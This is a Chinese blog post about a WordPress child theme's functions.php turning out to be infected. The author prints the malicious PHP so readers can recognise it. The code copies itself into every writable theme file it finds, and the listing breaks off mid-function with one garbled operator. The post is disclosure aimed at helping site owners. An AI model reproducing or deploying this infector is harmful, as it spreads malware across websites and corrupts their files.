 ```yaml
---
layout: post
title: 用子主题functions.php添加自定义功能后访问网站报错解决方法
tags:
  - functions.php报错
  - functions.php追加恶意代码
  - 子主题修改
categories:
  - 燕衔春泥
abbrlink: 1479
date: 2016-06-04 00:00:00
---
```




这真是一个坑、深坑啊。。





在为"Twenty Sixteen"添加子主题时，在functions.php添加个功能后，访问网站，第一次还可以正常访问，再刷新后就报错了，试了无数次，发现原因竟然是子主题functions.php文件竟然无缘无故多了好多代码，于是百度寻求方法，果然在欲思博客找到" [这篇文章](http://yusi123.com/3585.html)"。





原因竟然是主题中的"functions.php"文件被恶意代码感染了，按照文中提示，将所有的"functions.php"中的恶意代码删除，ok，终于正常了，现将恶意代码贴出：





    <?php
    function _verify_isactivate_widgets(){
     $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));$output="";$allowed="";
     $output=strip_tags($output, $allowed);
     $direst=_get_allwidgetscont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
     if (is_array($direst)){
     foreach ($direst as $item){
     if (is_writable($item)){
     $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
     $cont=file_get_contents($item);
     if (stripos($cont,$ftion) === false){
     $seprar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
     $output .= $before . "Not found" . $after;
     if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
     $output=rtrim($output, "\n\t"); fputs($f=fopen($item,"w+"),$cont . $seprar . "\n" .$widget);fclose($f); 
     $output .= ($showsdots && $ellipsis) ? "..." : "";
     }
     }
     }
     }
     return $output;
    }
    function _get_allwidgetscont($wids,$items=array()){
     $places=array_shift($wids);
     if(substr($places,-1) == "/"){
     $places=substr($places,0,-1);
     }
     if(!file_exists($places) '' !is_dir($places)){
     return false;
     }elseif(is_readable($places)){
     $elems=scandir($places);